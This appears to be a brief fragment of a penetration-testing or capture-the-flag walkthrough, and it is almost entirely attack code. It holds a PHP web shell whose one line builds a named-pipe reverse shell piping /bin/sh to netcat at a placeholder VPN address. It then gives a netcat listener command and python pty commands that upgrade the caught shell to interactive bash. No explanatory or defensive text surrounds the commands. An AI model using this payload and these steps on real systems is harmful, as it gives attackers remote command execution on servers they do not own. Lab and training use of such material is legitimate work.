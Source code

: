 ```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <VPN-IP>:<VPN-PORT> >/tmp/f"); ?>
```

```bash
nc -lvnp <VPN-PORT>
```
###### Upgrade Shell
```bash
which python3 | which python | which python2
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
